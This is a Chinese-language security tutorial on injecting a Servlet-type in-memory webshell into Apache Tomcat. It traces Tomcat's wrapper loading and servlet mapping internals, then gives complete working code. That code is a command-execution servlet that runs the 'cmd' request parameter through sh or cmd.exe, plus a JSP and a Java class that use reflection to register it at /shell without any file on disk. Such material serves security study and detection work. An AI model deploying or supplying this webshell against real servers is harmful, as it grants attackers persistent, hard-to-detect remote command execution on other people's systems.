## 简介

Java Servlet 是运行在 Web 服务器或应用服务器上的程序，它是作为来自 Web 浏览器或其他 HTTP 客户端的请求和 HTTP 服务器上的数据库或应用程序之间的中间层。Servlet 的主要功能在于交互式地浏览和修改数据，生成动态 Web 内容。

Servlet 接口定义了下面五个方法：

```java
public interface Servlet {
    void init(ServletConfig config) throws ServletException;
    
    ServletConfig getServletConfig();
    
    void service(ServletRequest req, ServletResponse res）throws ServletException, IOException;
    
    String getServletInfo();
    
    void destroy();
}
```

其中最重要是的 service 方法，具体业务类在这个方法里实现处理逻辑。这个方法有两个参数：ServletRequest 和 ServletResponse。ServletRequest 用来封装请求信息，ServletResponse 用来封装响应信息，因此本质上这两个类是对通信协议的封装。

Servlet 容器在加载 Servlet 类的时候会调用 init 方法，在卸载的时候会调用 destroy 方法。我们可能会在 init 方法里初始化一些资源，并在 destroy 方法里释放这些资源。

ServletConfig 的作用是封装 Servlet 的初始化参数。可以在web.xml给 Servlet 配置参数，并在程序里通过 getServletConfig 方法拿到这些参数。  

显然对于内存马的实现来讲，我们需要将恶意代码写在service方法中：

```java
import javax.servlet.*;
import javax.servlet.annotation.WebServlet;
import java.io.IOException;
import java.io.InputStream;
import java.io.PrintWriter;
import java.util.Scanner;


public class MyServlet implements Servlet {
    @Override
    public void init(ServletConfig config) throws ServletException {

    }

    @Override
    public ServletConfig getServletConfig() {
        return null;
    }

    @Override
    public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
        String cmd = servletRequest.getParameter("cmd");
        boolean isLinux = true;
        String osTyp = System.getProperty("os.name");
        if (osTyp != null && osTyp.toLowerCase().contains("win")) {
            isLinux = false;
        }
        String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
        InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
        Scanner s = new Scanner(in).useDelimiter("\\a");
        String output = s.hasNext() ? s.next() : "";
        PrintWriter out = servletResponse.getWriter();
        out.println(output);
        out.flush();
        out.close();
    }

    @Override
    public String getServletInfo() {
        return null;
    }

    @Override
    public void destroy() {

    }
}
```

配置servlet有两种方法，第一种是通过web.xml

```xml
<servlet>
    <servlet-name>myServlet</servlet-name>
    <servlet-class>MyServlet</servlet-class>
</servlet>

<servlet-mapping>
    <servlet-name>myServlet</servlet-name>
    <url-pattern>/myservlet</url-pattern>
</servlet-mapping>
```

第二种是通过`@WebServlet("/myservlet")`

```java
@WebServlet("/myservlet")
public class MyServlet implements Servlet {
...
}
```

配置之后测试：



## Servlet 流程简析

在之前的分析中我们知道，tomcat加载顺序是`Listener-Filter-Servlet`，要完成内存马的注入，我们需要先关注到Servlet的执行流程

Servlet的生命周期分为如下五部分：

1. 加载：当Tomcat第一次访问Servlet的时候，Tomcat会负责创建Servlet的实例
2. 初始化：当Servlet被实例化后，Tomcat会调用`init()`方法初始化这个对象
3. 处理服务：当浏览器访问Servlet的时候，Servlet 会调用`service()`方法处理请求
4. 销毁：当Tomcat关闭时或者检测到Servlet要从Tomcat删除的时候会自动调用`destroy()`方法，让该实例释放掉所占的资源。一个Servlet如果长时间不被使用的话，也会被Tomcat自动销毁
5. 卸载：当Servlet调用完`destroy()`方法后，等待垃圾回收。如果有需要再次使用这个Servlet，会重新调用`init()`方法进行初始化操作

### 解析web.xml

根据tomcat的启动流程，在启动StandardHost之后会启动StrandContext，此时会先对web.xml进行解析。

从`StandardContext.startInternal()`中的

```java
this.fireLifecycleEvent("configure_start", (Object)null);
```

开始xml的解析，最终通过`ContextConfig.webConfig()`方法解析web.xml获取各种配置参数



### 创建StandWrapper对象

跟进到`ContextConfig.configureContext(webXml)`方法

在读取到servlet后进行一个迭代



此时通过`this.context.createWrapper()`创建StandardWrpper，接下来会对其进行加载与处理

首先设置LoadOnStartup属性

```java
if (servlet.getLoadOnStartup() != null) {
    wrapper.setLoadOnStartup(servlet.getLoadOnStartup());
}
```

>在 servlet 的配置当中，`<load-on-startup>1</load-on-startup>` 的含义是： 标记容器是否在启动的时候就加载这个 servlet。 当值为 0 或者大于 0 时，表示容器在应用启动时就加载这个  servlet； 当是一个负数时或者没有指定时，则指示容器在该 servlet 被选择时才加载。 正数的值越小，启动该 servlet  的优先级越高。
>
>如果要在 web.xml 里面配置应该如此
>
>```xml
><load-on-startup>1</load-on-startup>
>```
>
>这里对应的实际上就是 Tomcat Servlet 的懒加载机制，可以通过`loadOnStartup`属性值来设置每个Servlet的启动顺序。默认值为-1，此时只有当Servlet被调用时才加载到内存中。
>

接下来设置ServletName属性



设置ServletClass属性



包装好的StandWrapper之后进入`this.context.addChild(wrapper);`

该函数的作用是将StandWrapper添加进ContainerBase的children属性中,我们跟进看看

进入`StandardContext.addChild()`,先判断Servlet 是否是 JSP 的 Servlet




进入`super.addChild(child);`,也就是其父类`ContainerBase.addChild()`



继续跟进`addChildInternal`



这里先将wrapper添加到了ContainerBase的children变量中，之后执行到child.start()，在这里会注册这个Servlet 

在 `addChild()` 方法之后，我们再次回到`ContextConfig`,调用 `addServletMappingDecoded()` 方法添加映射关系。



### 加载StandWrapper对象

之后我们回到``StandardContext`,接着在`StandardContext#startInternal`方法通过`findChildren()`获取`StandardWrapper`类并传入`loadOnStartup()`中处理

在加载完Listener、Filter后，就通过`loadOnStartUp()`方法加载wrapper



先获取Context下所有的Wapper类，并获取到每个Servlet的启动顺序，选出 >= 0 的项加载到一个存放Wapper的list中



之后利用`wrapper.load()`进行装载



跟进



这里通过`this.loadServlet()`加载servlet

> Java的synchronized是Java中的关键字，被Java原生支持，是一种最基本的同步锁，它可以帮助我们解决线程冲突

之后通过获取servletClass来装载servlet



装载所有的 Servlet 之后，就会根据具体请求进行初始化、调用、销毁一系列操作：

```
装载：启动服务器时加载Servlet的实例

初始化：web服务器启动时或web服务器接收到请求时，或者两者之间的某个时刻启动。初始化工作有init()方法负责执行完成

调用：即每次调用Servlet的service()，从第一次到以后的多次访问，都是只是调用doGet()或doPost()方法（doGet、doPost内部实现，具体参照HttpServlet类service()的重写）

销毁：停止服务器时调用destroy()方法，销毁实例
```

总结一下创建servlet流程:



1. 获取`StandardContext`对象
2. 编写恶意Servlet
3. 通过`StandardContext.createWrapper()`创建`StandardWrapper`对象
4. 设置`StandardWrapper`对象的`loadOnStartup`属性值
5. 设置`StandardWrapper`对象的`ServletName`属性值
6. 设置`StandardWrapper`对象的`ServletClass`属性值
7. 将`StandardWrapper`对象添加进`StandardContext`对象的`children`属性中
8. 通过`StandardContext.addServletMappingDecoded()`添加对应的路径映射

## 构造内存马

主要步骤如下:

- 创建恶意Servlet
- 用Wrapper对其进行封装
- 添加封装后的恶意Wrapper到StandardContext的children当中
- 添加ServletMapping将访问的URL和Servlet进行绑定

```jsp
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page import="java.io.PrintWriter" %>
<%!
    Servlet servlet = new Servlet() {
        @Override
        public void init(ServletConfig servletConfig) throws ServletException {

        }
        @Override
        public ServletConfig getServletConfig() {
            return null;
        }
        @Override
        public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
            String cmd = servletRequest.getParameter("cmd");
            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = new Scanner(in).useDelimiter("\\a");
            String output = s.hasNext() ? s.next() : "";
            PrintWriter out = servletResponse.getWriter();
            out.println(output);
            out.flush();
            out.close();
        }
        @Override
        public String getServletInfo() {
            return null;
        }
        @Override
        public void destroy() {

        }
    };
%>
<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext stdcontext = (StandardContext) req.getContext();
%>
<%
    Wrapper newWrapper = stdcontext.createWrapper();
    String name = servlet.getClass().getSimpleName();
    newWrapper.setName(name);
    newWrapper.setLoadOnStartup(1);
    newWrapper.setServlet(servlet);
    newWrapper.setServletClass(servlet.getClass().getName());
%>
<%
    stdcontext.addChild(newWrapper);
    stdcontext.addServletMappingDecoded("/shell", name);
%>
```

注入成功



java版本:

```java
import org.apache.catalina.Wrapper;
import org.apache.catalina.connector.Request;
import org.apache.catalina.core.StandardContext;

import javax.servlet.*;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Scanner;

public class ServletShell implements Servlet {
    @Override
    public void init(ServletConfig servletConfig) throws ServletException {

    }

    @Override
    public ServletConfig getServletConfig() {
        return null;
    }

    @Override
    public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
        Field reqF = null;
        try {
            reqF = servletRequest.getClass().getDeclaredField("request");
        } catch (NoSuchFieldException e) {
            e.printStackTrace();
        }
        reqF.setAccessible(true);
        Request req = null;
        try {
            req = (Request) reqF.get(servletRequest);
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        }
        StandardContext standardContext = (StandardContext) req.getContext();

        ServletShell servletShell = new ServletShell();
        String name = servletShell.getClass().getSimpleName();

        Wrapper wrapper = standardContext.createWrapper();
        wrapper.setLoadOnStartup(1);
        wrapper.setName(name);
        wrapper.setServlet(servletShell);
        wrapper.setServletClass(servletShell.getClass().getName());
        standardContext.addChild(wrapper);
        standardContext.addServletMappingDecoded("/shell", name);

        String cmd = servletRequest.getParameter("cmd");
        boolean isLinux = true;
        String osTyp = System.getProperty("os.name");
        if (osTyp != null && osTyp.toLowerCase().contains("win")) {
            isLinux = false;
        }
        String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
        InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
        Scanner s = new Scanner(in).useDelimiter("\\a");
        String output = s.hasNext() ? s.next() : "";
        PrintWriter out = servletResponse.getWriter();
        out.println(output);
        out.flush();
        out.close();
    }
    @Override
    public String getServletInfo() {
        return null;
    }

    @Override
    public void destroy() {

    }

    public synchronized HttpServletResponse getResponseFromRequest(HttpServletRequest var1) {
        HttpServletResponse var2 = null;

        try {
            Field var3 = var1.getClass().getDeclaredField("response");
            var3.setAccessible(true);
            var2 = (HttpServletResponse)var3.get(var1);
        } catch (Exception var8) {
            try {
                Field var4 = var1.getClass().getDeclaredField("request");
                var4.setAccessible(true);
                Object var5 = var4.get(var1);
                Field var6 = var5.getClass().getDeclaredField("response");
                var6.setAccessible(true);
                var2 = (HttpServletResponse)var6.get(var5);
            } catch (Exception var7) {
            }
        }

        return var2;
    }
}
```

同时配置映射



由于 Servlet 名字唯一性,再次访问会出错

参考:

https://drun1baby.github.io/2022/09/04/Java%E5%86%85%E5%AD%98%E9%A9%AC%E7%B3%BB%E5%88%97-05-Tomcat-%E4%B9%8B-Servlet-%E5%9E%8B%E5%86%85%E5%AD%98%E9%A9%AC/#toc-heading-5

https://github.com/Y4tacker/JavaSec/blob/main/5.%E5%86%85%E5%AD%98%E9%A9%AC%E5%AD%A6%E4%B9%A0/Tomcat/Tomcat-Servlet%E5%9E%8B%E5%86%85%E5%AD%98%E9%A9%AC/Tomcat-Servlet%E5%9E%8B%E5%86%85%E5%AD%98%E9%A9%AC.md

https://www.freebuf.com/articles/web/322580.html

https://goodapple.top/archives/1355

